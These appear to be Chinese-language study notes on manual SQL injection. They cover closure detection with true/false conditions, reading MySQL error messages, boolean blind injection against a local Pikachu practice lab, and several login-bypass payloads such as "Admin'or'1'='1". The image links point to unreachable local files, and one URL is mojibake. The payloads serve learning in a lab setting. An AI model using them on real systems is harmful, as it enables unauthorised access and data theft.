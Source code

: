

## 先判度注入类型,判断怎么闭合

判断依据为若前面确定为真则可以用and来进行拼接真假语句

若前面不能确定为真则用or

例 `and 1=1 --+ 或 or 1=1 --+  我们来通过修改前面的闭合符号 并修改 1=1 和 1=2 页面的不同来判断我们有没有闭合成功`

或这么判断也是观察页面的变化,有变化就是带入了

![image-20231001195910408](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20231001195910408.png)

![image-20230930162520382](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230930162520382.png)

![image-20230930162532341](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230930162532341.png)

![image-20230930162544851](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230930162544851.png)

![image-20230930162559229](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230930162559229.png)

![image-20230930162610844](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230930162610844.png)

## 一般注入 

```
可以用引号进行测试是字符串还是数字型
分析注入点:
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''12312''' at line 1
''12312'''  --->去掉最外层的一对引号 '123''   -->可以看出是单引号包裹的 字符类型注入

闭包需要查看源码看有没有引号括号来进行有针对的闭包

Select * from users where id= 1”

思路

布尔盲注拼接真假语句
Select * from users where id = 1” and 1=1 --+   注释类型
http://127.0.0.1/pikachu/vul/sqli/sqli_str.php?name=' or '1'='1&submit=Ã¦ÂÂ¥Ã¨Â¯Â¢  闭包型

万能密码
3组
用户名已知:
用户名 Admin 密码 1’ or ‘1’=‘1
用户名 Admin'or'1'='1 密码 随便写

可用注释符号:
用户名 'or 1=1 --+ 密码 随便输入

用户名未知:
用户名 1'or'1'or'1 密码 随便输
```
